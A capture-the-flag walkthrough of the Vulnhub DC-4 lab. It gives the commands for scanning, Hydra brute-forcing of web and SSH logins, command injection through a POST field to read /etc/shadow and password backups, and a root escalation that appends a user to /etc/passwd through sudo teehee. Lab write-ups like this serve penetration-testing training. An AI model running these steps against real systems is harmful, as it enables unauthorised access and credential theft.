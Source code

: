 # DC:4 CTF Walkthrough (Vulnhub) 

###### <p align="center"> *This is official repository maintained by me*</center> </p>
###### <p align="center"> *[yigitdrbk](https://www.instagram.com/yigitdrbk/) *</center> </p>

Dc:4 is a CTF created by DCAU. You can find the technical information about this CTF on the Vulnhub page. First of all, make sure to download and install the correct OVA file from Vulnhub. (https://download.vulnhub.com/dc/DC-4.zip).

As described on the Vulnhub page, this CTF challenge is aimed at beginners to intermediate-level participants. According to the author: “DC-4 is another purposely built vulnerable lab designed to help users gain hands-on experience in the field of penetration testing.".
## 1-Recon
After setting your machine’s IP to work on your network, you’re ready to scan. If you can’t reach your machine from another virtual machine or your own computer, you should check your VirtualBox network settings. If you’re trying to reach your machine from another VirtualBox instance, both machines’ network settings should be set to Bridged Adapter or NAT Network. Once that’s configured, you’re ready to start scanning.

To find an IP address on the same network, we can use Nmap or Netdiscover to scan.
```bash
nmap -sn 10.0.2.0/24 or netdiscover -r 10.0.2.0/24
```

My IP is 10.0.2.13, and I’ll start by scanning the open ports, then check for any vulnerabilities they might have. If you’ve made it this far, you probably know how to scan ports, but I’ll give you the command anyway:

```bash
nmap -p- -vv <machine_ip>
nmap -PN -sS -sV --script vuln <machine_ip> -oN finalscan
```

![DC4](https://miro.medium.com/v2/resize:fit:828/format:webp/1*3NmBqWHuP9GqrEU35YCN7g.png "DC4")

There are only two open ports, as shown above: 22 and 80. I didn’t find any vulnerabilities during the initial nmap scan, so I moved on to directory brute-forcing using dirb and dirsearch.

```bash
dirb http://<machine_ip>
dirsearch -u http://<machine-ip>
```

![DC4](https://miro.medium.com/v2/resize:fit:640/format:webp/1*DuQTEJnpQOS-cIbIhgjU4w.png "DC4")

The only suspicious directory I found was command.php. When I visited the website, there was just a login panel. I checked the source code and a few other things, but didn’t find any useful clues. So, I decided to start brute-forcing..

## 2- Brute Force

I started by running Burp Suite and setting up my website proxy. I intercepted the request and sent it to the intruder. After selecting the credentials fields, I set my wordlist to rockyou.txt and ran the attack. However, it was too slow, so I switched to Hydra.

The Hydra command was a bit tricky to figure out. I used developer tools and some AI help to craft it. Here’s the Hydra command I used for the brute-force attack:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt <machine_ip> http-post-form "/login.php:username=admin&password=^PASS^:S=command"
```
I found the password for admin easily. It was “happy”.

## 3- Running commands on website

After logging in with the admin credentials, I was redirected to the command.php page. Here, I could list files, view disk usage, and check my current storage capacity. I then attempted to intercept this with Burp Suite. The request looked like this:

![DC4](https://miro.medium.com/v2/resize:fit:828/format:webp/1*LKe5qVRfPAboalumgRVa8w.png "DC4")

I changed the radio value to whoami and received the response www-data. Then, I tried a bunch of commands like cat /etc/passwd, cat /etc/shadow, and explored the /home directory. I found three users in the home directory: charles, jim, and tom.

![DC4](https://miro.medium.com/v2/resize:fit:828/format:webp/1*G07pAiXfHkGZUVmHzQSkOQ.png "DC4")

I checked each folder and found an interesting one.

![DC4](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*nJBDZ3M9kE98P2t9gUm6Ew.png "DC4")

There was file named “old.passwords.bak” in jim’s backup directory.

```bash
radio=cat+/home/jim/backups/old-passwords.bak&submit=Run
```
Getting reverse shell is hard to do from just in burpsuite. But i just copy the output above command and saved it like passwords.txt.

## 4- SSH phase

I tried to brute force with this passwords.

```bash
hydra -l jim -P passwords 10.0.2.13 ssh
```

You can add -t 4 to run faster. I found the jim’s password “jibril04”.

(I tried to brute force tom and charles but it didn’t work.)

Jim’s have mail by root in his home directory. I didn’t understand the mail content.

```bash
From root@dc-4 Sat Apr 06 20:20:04 2019
Return-path: <root@dc-4>
Envelope-to: jim@dc-4
Delivery-date: Sat, 06 Apr 2019 20:20:04 +1000
Received: from root by dc-4 with local (Exim 4.89)
 (envelope-from <root@dc-4>)
 id 1hCiQe-0000gc-EC
 for jim@dc-4; Sat, 06 Apr 2019 20:20:04 +1000
To: jim@dc-4
Subject: Test
MIME-Version: 1.0
Content-Type: text/plain; charset="UTF-8"
Content-Transfer-Encoding: 8bit
Message-Id: <E1hCiQe-0000gc-EC@dc-4>
From: root <root@dc-4>
Date: Sat, 06 Apr 2019 20:20:04 +1000
Status: RO

This is a test.
```
Then, I searched online and discovered that there’s a directory on the server for users to mail each other: /var/mail. Each user can access their mail directory, so I could read Jim’s emails. There was one email from Charles, in which he mentioned he was going on vacation and shared his password with Jim in case anything happened. Charles’s password is “^xHhA&hvim0y”.

```bash 
su charles
``` 

I switched user to charles and see what’s inside of home/charles.

## 5- Privilege escalation

Charles has root privileges on a specific file: /usr/bin/teehee. After researching, I found out that this is a type of text editor. I discovered that I could append a user with root privileges to /etc/passwd. A typical entry for a normal user in /etc/passwd would look like this:

```bash 
username:$passwordhash:0:0:username:/home/username:/bin/bash
``` 

First, I needed to create a hash. After doing some research, I found a command that allows you to input your password and generates a hash. The command is:

```bash
openssl passwd -1
```
For example if I give you the password “selam” and it hashed like $1$7yVj4i1u$YCPsRLjjCSr0s7x.PJCLs.

Now i should append this with username on etc/passwd file and switch user to this user. I added myself.

```bash
sudo teehee -a /etc/passwd
yigit:$1$7yVj4i1u$YCPsRLjjCSr0s7x.PJCLs.:0:0:yigit:/home/yigit:/bin/bash
```

And then i switch my user to yigit. Now i am root and can reach root director. Final flag here.

![DC4](https://miro.medium.com/v2/resize:fit:828/format:webp/1*1QZvlGB1hQ_mtv5N6b0seg.png "DC4")

Developer / Author: [yigitdrbk](https://www.instagram.com/yigitdrbk/)
